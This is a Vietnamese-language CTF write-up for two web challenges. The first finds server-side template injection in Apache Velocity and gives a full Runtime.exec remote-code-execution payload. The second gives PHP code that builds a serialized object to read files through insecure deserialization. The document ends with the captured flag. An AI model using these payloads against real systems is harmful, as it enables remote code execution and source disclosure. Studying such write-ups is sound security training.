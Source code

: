 # Web 1: IsH0wSp33d 

![331861960-5be8fafd-efaa-4808-a969-b0ea199197fb](https://github.com/j10nelop/Pr1vate/assets/152776722/c040f3cf-8289-47b0-8070-067431864946)


1. Initial reconnaissance:

+ đầu tiên trong web khi nhập ta có được 1 số thông tin về template thông báo not found search bar

![331866162-a8e83a5f-2fbf-49f3-a3cd-639b3ba3e774](https://github.com/j10nelop/Pr1vate/assets/152776722/ce74e7e4-74b9-424c-8b94-03da382fc542)


=> điều kì lạ xảy ra khi ta không nhập 1 thông tin gì vào mục search thì nó hiện ra thông tin là **hello, velocity!**

![331871351-c5b5bc02-3753-4552-a688-40f12ee36bb7](https://github.com/j10nelop/Pr1vate/assets/152776722/7dbb24da-2ac9-455b-a1c1-2787ddcb5188)



+ lúc đầu do chưa biết rõ về thông tin lỗ hổng đó nên mình dùng thử brupsuite pro quét qua cái test case trong đó thì mình  tìm ra được lỗ hổng ssti và test case của nó được encode url

![331871403-242ac0f1-da81-44af-abef-22c058f43dd7](https://github.com/j10nelop/Pr1vate/assets/152776722/98ebf14b-24f8-46f3-982b-14287195b037)


sau khi decode thì mình được 1 payload có dạng 

![331871499-6c22eb27-a249-44b9-9e1e-829641d49058](https://github.com/j10nelop/Pr1vate/assets/152776722/f21c3d2e-5c71-41b7-9311-f3985298f33b)


sau khi lọc ra test thì ta được payload 

```
#set ($a=7*7) ${a}
```

![331871571-39e282b7-d9de-4310-aa49-944b68f5209d](https://github.com/j10nelop/Pr1vate/assets/152776722/efc9f052-62f0-45b6-b8ae-666ada079507)


=> có vẻ đoán chắc đây là lỗ hổng ssti nhưng ở dạng velocity template sau khi được search 

payload: solve 

```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```


# Web 2: web-secu-challenge 

![333806229-6331738d-8c6b-4a56-8f67-6038fc6fcd45](https://github.com/j10nelop/Pr1vate/assets/152776722/df6a5651-9f47-49c1-bfc8-8bb2a12b64ad)



payload 

```
<?php

// Define the XYZ class
class XYZ {
    public $source;

    public function __toString() {
        return highlight_file($this->source, true);
    }

    public function show() {
        echo $this->source;
    }
}

// Create an instance of the XYZ class
$obj = new XYZ();
$obj->source = 'target.php';

// Serialize the object
$serialized = serialize([$obj]);

// Output the serialized data
echo $serialized;

?>

```

![333806259-7b11fc06-abb6-4f0b-a83e-bb9596201dd3](https://github.com/j10nelop/Pr1vate/assets/152776722/faf512e5-0d61-43a5-bca0-fe6010c336eb)


=> flag: Fusec{flag-418e9146}
